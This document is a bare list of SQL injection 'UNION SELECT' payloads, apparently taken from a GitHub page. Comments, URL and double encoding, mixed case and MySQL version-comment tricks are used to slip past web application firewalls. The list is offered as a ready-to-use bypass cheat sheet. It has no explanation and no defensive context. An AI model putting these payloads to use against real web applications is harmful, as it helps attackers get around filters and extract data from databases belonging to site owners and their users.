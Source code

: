 ```sql
 
 +un/**/ion+se/**/lect
 
 uni%0bon+se%0blect
 
 %2f**%2funion%2f**%2fselect
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 REVERSE(noinu)+REVERSE(tceles)
 
 /*--*/union/*--*/select/*--*/
 
 union (/*!/**/ SeleCT */ 1,2,3)
 
 /*!union*/+/*!select*/
 
 union+/*!select*/
 
 /**/union/**/select/**/
 
 /**/uNIon/**/sEleCt/**/
 
 /**//*!union*//**//*!select*//**/
 
 /*!uNIOn*/ /*!SelECt*/
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 +UnIOn%0d%0aSeleCt%0d%0a
 
 UNION/*&test=1*/SELECT/*&pwn=2*/
 
 un?+un/**/ion+se/**/lect+
 
 +UNunionION+SEselectLECT+
 
 +uni%0bon+se%0blect+
 
 %252f%252a*/union%252f%252a /select%252f%252a*/
 
 /%2A%2A/union/%2A%2A/select/%2A%2A/
 
 %2f**%2funion%2f**%2fselect%2f**%2f
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 /*!UnIoN*/SeLecT+
 
##
#
#
#Union Select by PASS with Url Encoded Method:
 
%55nion(%53elect)
 
union%20distinct%20select
 
union%20%64istinctRO%57%20select
 
union%2053elect
```
